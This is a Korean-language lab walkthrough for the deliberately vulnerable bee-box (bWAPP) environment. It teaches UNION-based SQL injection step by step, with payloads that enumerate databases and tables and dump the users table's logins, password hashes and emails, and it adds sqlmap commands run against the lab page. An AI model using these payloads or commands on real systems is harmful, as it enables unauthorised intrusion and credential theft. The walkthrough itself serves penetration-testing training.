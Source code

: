 

# Bee - Box

<center><img src = "https://user-images.githubusercontent.com/76420201/106377985-3783a600-63e4-11eb-924e-731743774575.jpg" width = "70%"></center>
<br>

- 비박스(bee-box)란 웹 어플리케이션에서 자주 발생하는 취약점을 쉽게 테스트할 수 있도록 의도된 환경을 제공한다. 정확한 명칭은 bWAPP이며, 이를 가상머신의 형태로 꾸며놓은 것을 비박스라고 부른다. 
- 취약점 테스팅 서비스는 비박스가 처음으로 등장한 것은 아니며, 대표적으로 DVWA이나 WebGoat(OWASP 프로젝트)와 유사하다. 비박스가 가지는 장점은 실습해볼 수 있는 컨텐츠의 양이 절대적으로 훨씬 더 많다는 것이다. 
- 난이도 조절이 3단계로 가능하므로 조금 더 폭넓은 모의해킹 연습 훈련소로 활용할 수 있다.

<br>

<details markdown="1">
<summary><b>Union SQL Injection</b></summary>
<br>   

```
bWQPP -> SQL Injection(GET/Search)

ID : bee
PW : bug
level : Low

문제: 해당 사이트에서 사용자 정보(이름, 아이디, 패스워드 등)를 탈취하기 
```

---

**Step 1. 기본 동작을 유추**

해당 페이지는 영화 제목을 검색하는 페이지기 때문에 **DB에서 사용자 입력을 키워드로 조회한 결과**를 보여준다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106378432-1c1a9a00-63e8-11eb-924b-c9bdac4f8bfd.gif"></center>

서버 내부 처리(추측)<br>
`select * from movies where title like '%man%'`

---

**Step 2. 인젝션 가능 여부를 확인**

검색란에 작은따옴표`'`를 입력하여 SQL 인젝션이 가능한지 알아본다. 변수에 SQL 인젝션 취약점이 존재하는 경우 SQL오류 메시지를 출력한다.<br>
작은따옴표`'`를 입력하는 이유는 DB에서 `'`로 문자 데이터를 구분하기 때문이다. 따라서 취약점이 존재할 때 `'`를 입력하면 웹 서버에서 DB서버에 질의하는 쿼리에 문법 오류가 발생한다.

서버 내부 처리(추측)<br>
`SELECT * FROM moview WEHRE LIKE ' %man'% '`

<center><img src= "https://user-images.githubusercontent.com/76420201/106378433-1d4bc700-63e8-11eb-960d-4bd979b6dc9b.gif"></center>

오류 메시지에는 DB 서버가 포함되는데, DB서버 종류의 따라 SQL 구문이 다르기 때문에 가장먼서 서버 정보를 확인한다. 오류 메시지를 확인해 보면 해당 DB 서버는 MySQL이라는 정보를 출력하고 있다.

---

**Step 3. UNION 구문을 이용해서 데이터 출력 개수와 위치를 확인**

`or 1=1`이라는 쿼리는 앞 쿼리의 내용과는 상관없이 항상 참이라는 결과를 만드는 쿼리이다. 이 쿼리를 통해서 **어떤 주석 문자를 사용하는지 알아본다**. 맨 마지막에 주석 문자를 붙여주면서 기존 코드의 뒷부분을 주석 처리한다. 

MySQL주석 문자는 `#` 또는 `--`을 사용한다. 따라서 두가지 쿼리를 입력해봐야 한다.
1. `' or 1=1--`
2. `' or 1=1#` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106378861-50dc2080-63eb-11eb-9e03-29994b7f91b3.gif" width = "70%"></center>

첫번째 쿼리에서는 에러가 나고 두번째 쿼리에서 정상적으로 결과가 출력되는걸 확인할 수 있다.

더 자세한 정보를 알아내기 위하여 UNION SELECT 구문을 사용한다. UNION은 SELECT 문이 둘 이상일 때 이를 결합하여 결과를 하나로 반환한다.

두 쿼리의 결과를 하나의 테이블로 합치기 때문에 UNION 구문을 사용하려면 이전 쿼리에서 사용하는 **SELECT 문의 칼럼 수를 일치** 시켜줘야 한다. 칼럼의 수가 일치하지 않는경우 오류 메시지가 나오고, 오류 메시지가 나오지 않을 때까지 칼럼 수를 늘려가며 확인한다.

`' UNION SELECT  1,2,3,4,5#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106379433-59cef100-63ef-11eb-8937-fc0ad93e4445.gif"></center>
<br>

`' UNION SELECT  1,2,3,4,5,6,7#`<br>
칼럼수가 7개가 될 때 정상적으로 결과를 출력한다. 또한 `1,2,3,4,5,6,7`로 입력 하였을때 `2, 3, 5, 4`칼럼의 값만 출력되는 것을 확인할 수 있다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106379432-589dc400-63ef-11eb-8b33-ee22c1813be0.gif" width = "70%"></center>

---

**Step 4. UNION 구문을 이용해서 데이터베이스 정보를 조회**

MySQL 버전을 확인하기 위해서 시스템 변수나 시스템 함수를 활용하여 쿼리를 입력한다.

`' UNION SELECT 1, @@version, 3, 4, 5, 6, 7#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106381745-52fbaa80-63fe-11eb-9503-cf5ac7de52d3.gif" width = "70%"></center>
<br>

- SQL 인젝션으로 데이터베이서의 정보를 파악할 수 있는 변수와 함수

| 시스템 변수 및 함수 | 설명 |
|-------------------|------|
| databases() | 데이터베이스 명을 알려주는 함수|
| user() | 현자 사용자의 아이디 |
| system_user() | 최고 권한 사용자의 아이디 |
| @@version | 데이터베이스 서버의 버전 |
| @@datadir | 데이터베이스 서버가 존재하는 디렉터리 |

---

**Step 5. DB 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)

<center><img src = "https://user-images.githubusercontent.com/76420201/106382105-bbe42200-6400-11eb-8b4d-8e071a2982ec.gif" width = "80%"></center>

MySQL 공식 문서를 참고해보면 information_schema.schemata은 데이터베이스들의 정보를 제공해줍니다. 그중 SCEMA_NAME이라는 컬럼은 schema의 name값을 가지고 있다는 것을 알 수 있습니다.

<br>

`' UNION SELECT 1,SCHEMA_NAME, 3, 4, 5, 6, 7 from information_schema.schemata#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106382451-0f576f80-6403-11eb-988d-3b7a5f36f556.gif" width = "80%"></center>

SQL 인젝션 결과 데이터베이스 서버에 존재하는 모든 데이터베이스 명을 출력했습니다.

---

**Step 6. Table 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

- where 절을 이용해서 필요한 테이블만 별도로 추출<br>
`' UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' # %'`

- 불필요한 정보를 쿼리 실행 결과에 포함되지 않도록 쿼리를 수정<br>
`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' #` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106382834-7b3ad780-6405-11eb-98b6-cd6a9d131a6b.gif" width = "70%"></center>

출력된 테이블 명 중 users 테이블에 사용자의 계정 정보가 들어있다고 추측할 수 있습니다. users table의 정보를 출력해봅니다.

---

**Step 7. users 테이블의 정보를 조회**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)

`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME, 5, 6, 7 from information_schema.columns where table_schema = 'bWAPP' and table_name = 'users' #`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383003-804c5680-6406-11eb-931d-273a10b9b4de.gif" width = "80%"></center>

칼럼 내용을 확인하려면 페이지에 노출되는 칼럼 순서에 맞춰 확인하고 싶은 칼럼명을 입력한다. 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용하여 칼럼 명을 인자로 입력하면 여러 칼럼의 내용을 볼 수 있습니다.

`' and 1 = 2 UNION SELECT 1, concat(id, login), password, email, secret, 6, 7 from users#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383165-a58d9480-6407-11eb-9628-ac96f0a4bfee.gif" width = "80%"></center>

SQL 인젝션 후 웹 브라우저에서 데이터베이스에 저장된 users 테이블 칼럼의 내용이 확인 가능하다. 그 중 password 칼럼에는 비밀번호의 해시값을 저장한다.

</details>

---

<details markdown="1">
<summary><b>sqlmap을 이용한 공격
</b></summary>
<br>   

**Step 1. 사용법**
`sqlmap -u [SQL Injection 취약점이 존재하는 페이지의 주소] --cookie = [인증을 전제하는 경우에 SESSIONID가 포함된 쿠키값]`

- 페이지 주소 : http://bee-box/bWAPP/sqli_1.php?title=man&action=search

- cookie 값 :

브라우저 개발도구(F12)의 Storage 확인
![sqlmap1](https://user-images.githubusercontent.com/76420201/106384529-aa097b80-640e-11eb-91c2-17fa5d13baf7.gif)
PHPSESSID = fc13d1925d717ec8ff2ec1f6e6182f34<br>
security_level = 0

---

**Step 2. SQL Injection 공격 가능 여부 확인**

```
┌──(kali㉿kali)-[~]
└─$ `sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" --cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0"`
```

<center><img src = "https://user-images.githubusercontent.com/76420201/106384672-6d8a4f80-640f-11eb-992a-3b0a7db2a87b.gif" width = "100%"></center>

---

**Step 3. DB 정보 확인**
```
┌──(kali㉿kali)-[~]
└─$ `sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" --cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" --dbs`
```

---

**Step 4. bWAPP 테이블 목록 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" --cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0 -D bWAPP"
```

</details>